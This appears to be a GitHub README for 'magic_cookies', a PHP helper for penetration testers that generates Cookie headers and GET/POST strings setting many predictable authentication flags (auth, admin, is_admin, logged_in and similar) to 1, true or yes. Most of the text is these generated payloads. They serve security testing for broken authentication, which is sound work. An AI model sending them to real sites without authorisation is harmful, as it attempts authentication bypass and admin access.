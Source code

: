 # magic_cookies
A simple helper for generating cookie header to test for broken authentication based on existence of predictably-named cookies.

Feel free to add some more words to the list, then run the tool, e.g.:

php generate_headers.php 

Cookie: auth=1; login=1; authenticated=1; admin=1; valid_user=1; valid-user=1; validuser=1; authenticated-user=1; authenticated_user=1; authenticateduser=1; valid=1; user=1; logged=1; loggedin=1; logged-in=1; logged_in=1; login=1; administrator=1; adminuser=1; admin-user=1; admin_user=1; is_valid=1; isvalid=1; is-valid=1; is_admin=1; isadmin=1; is-admin=1; isauthenticated=1; is-authenticated=1; is_authenticated=1; isuser=1; is_user=1; is-user=1

Cookie: auth=true; login=true; authenticated=true; admin=true; valid_user=true; valid-user=true; validuser=true; authenticated-user=true; authenticated_user=true; authenticateduser=true; valid=true; user=true; logged=true; loggedin=true; logged-in=true; logged_in=true; login=true; administrator=true; adminuser=true; admin-user=true; admin_user=true; is_valid=true; isvalid=true; is-valid=true; is_admin=true; isadmin=true; is-admin=true; isauthenticated=true; is-authenticated=true; is_authenticated=true; isuser=true; is_user=true; is-user=true

Cookie: auth=yes; login=yes; authenticated=yes; admin=yes; valid_user=yes; valid-user=yes; validuser=yes; authenticated-user=yes; authenticated_user=yes; authenticateduser=yes; valid=yes; user=yes; logged=yes; loggedin=yes; logged-in=yes; logged_in=yes; login=yes; administrator=yes; adminuser=yes; admin-user=yes; admin_user=yes; is_valid=yes; isvalid=yes; is-valid=yes; is_admin=yes; isadmin=yes; is-admin=yes; isauthenticated=yes; is-authenticated=yes; is_authenticated=yes; isuser=yes; is_user=yes; is-user=yes

GET/POST: auth=1&login=1&authenticated=1&admin=1&valid_user=1&valid-user=1&validuser=1&authenticated-user=1&authenticated_user=1&authenticateduser=1&valid=1&user=1&logged=1&loggedin=1&logged-in=1&logged_in=1&login=1&administrator=1&adminuser=1&admin-user=1&admin_user=1&is_valid=1&isvalid=1&is-valid=1&is_admin=1&isadmin=1&is-admin=1&isauthenticated=1&is-authenticated=1&is_authenticated=1&isuser=1&is_user=1&is-user=1

GET/POST: auth=true&login=true&authenticated=true&admin=true&valid_user=true&valid-user=true&validuser=true&authenticated-user=true&authenticated_user=true&authenticateduser=true&valid=true&user=true&logged=true&loggedin=true&logged-in=true&logged_in=true&login=true&administrator=true&adminuser=true&admin-user=true&admin_user=true&is_valid=true&isvalid=true&is-valid=true&is_admin=true&isadmin=true&is-admin=true&isauthenticated=true&is-authenticated=true&is_authenticated=true&isuser=true&is_user=true&is-user=true

GET/POST: auth=yes&login=yes&authenticated=yes&admin=yes&valid_user=yes&valid-user=yes&validuser=yes&authenticated-user=yes&authenticated_user=yes&authenticateduser=yes&valid=yes&user=yes&logged=yes&loggedin=yes&logged-in=yes&logged_in=yes&login=yes&administrator=yes&adminuser=yes&admin-user=yes&admin_user=yes&is_valid=yes&isvalid=yes&is-valid=yes&is_admin=yes&isadmin=yes&is-admin=yes&isauthenticated=yes&is-authenticated=yes&is_authenticated=yes&isuser=yes&is_user=yes&is-user=yes
